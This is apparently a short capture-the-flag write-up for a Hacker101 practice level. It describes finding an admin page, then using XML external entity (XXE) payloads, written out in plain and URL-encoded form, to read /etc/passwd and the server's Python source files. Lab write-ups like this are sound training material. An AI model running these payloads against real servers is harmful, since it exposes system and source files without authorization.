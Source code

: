 FLAG0
Found an admin page with burp.
https://xxxxxxxxxxxx.ctf.hacker101.com/admin

In the admin page we have a comment:
<!-- We should be using get-config for this on the client side. -->

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config

On top of the page there is ```<?xml version="1.0" encoding="UTF-8"?>``` which indicates the server uses xml for config.

xxe payload: ```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><config><location>&xxe;</location></config>```

using this website the payload can be turned into url friendly format: https://www.urlencoder.org/

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![Alt text](images/image.png)

The server is hosted with python so we can read the main.py file which has the first flag.

```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>```

![Alt text](main.py)

In the main file we can see the server is using a custom rng file.

```<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "rng.py">]><config><location>&xxe;</location></config>```

![Alt text](rng.py)

FLAG1

